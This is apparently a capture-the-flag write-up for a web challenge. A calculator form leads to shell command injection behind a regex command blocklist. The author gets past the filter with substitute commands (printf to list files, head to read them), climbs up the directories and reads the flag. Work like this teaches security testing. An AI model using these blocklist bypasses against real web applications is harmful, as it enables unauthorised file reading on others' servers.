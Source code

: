 # Calculator Evaluation

Web, 100

### Description

So, my friend got mad because you managed to read his secret. He went to update his website...

Find the new calculator app [here](challs.sieberrsec.tech:4588/calcv2.html).

P.S. He told me he recently learnt about regex. Not sure what that points to.


Original Challenge Author: xzy_10

Original Challenge Author: xzy_10

## Solution

### Inspecting Webpage

First, viewing the page source gives me this comment 
```
<html>
	<head>
		<link rel="stylesheet" href="styles.css">
	</head>
	<body>

		<h1>Calculator App V2!</h1>
		<h2>Updated to improve security!</h2>

		<form action="calcv2.php" method="get">
			Number to be added: <input type="text" name="value"><br>
		<input type="submit" value="Add!" class="button">
		</form>
		<!--
		OMG regex is sooooooo powerful! The | really makes it so easy to check for each linux command!
		All right! I have disabled the linux commands! I hope I have covered all of the commands though...
		-->
		</body>
</html>
```

### Using Alternative Linux Commands

My first thought was that it was a similar challenge from before, the `Calculator Evaluation` Challenge. I copied over my script and tried testing linux commands. I made some minor tweaks (not much, just formatting issues) and tested it.

```
> ls
ee my 
> !!!
<html>
<head>
  <link rel="stylesheet" href="styles.css">
</head>

<h1> 
Calculator App V2!
</h1>
<h3>No listing! Can't let you see my secrets!</h3>
> cat
(?^-?-^?)</h3><h3>A cat blocks your way! It's sleeping... Better not 
> echo
e!</h2><h3>Hey there!</h3><h4>Hey there!</h4><h5>Hey there!</h5><h6>He
> sh

> lmao

>
```

Looks like they don't give a proper result. The comment makes me think that maybe we can use alternative commands. I googled for an alternative to `ls` and tried it, which ended up working

```
> printf "%s\n" *
calcv2.html
calcv2.php
styles.css

> 
```

I also found a substitute for `cat` from [here](https://stackoverflow.com/questions/218912/linux-command-like-cat-to-read-a-specified-quantity-of-characters)

```
> head -c 100 styles.css
@import url('https://fonts.googleapis.com/css2?family=Hind:wght@500;600&display=swap');



h1 {

	fo
```

### Traversing the file system

I just used my 2 new useful commands to traverse everything

```
> printf "%s\n" ./*
./calcv2.html
./calcv2.php
./styles.css

> printf "%s\n" ../*
../calc-reval
../secrets1782956

> 

> printf "%s\n" ../*
../calc-reval
../secrets1782956

> printf "%s\n" ../secrets1782956*
../secrets1782956

> printf "%s\n" ../secrets1782956/*
../secrets1782956/flag

> head -c 1000 ../secrets1782956/flag
IRS{sAn1t1sE_3V3RYTH1NG!_n0T_Ju5T_th3_c0mM0n_0n35!}


> 
```

 Good 20 min challenge I guess. Most of the time was just admin and writing this writeup

## Flag

`IRS{sAn1t1sE_3V3RYTH1NG!_n0T_Ju5T_th3_c0mM0n_0n35!}`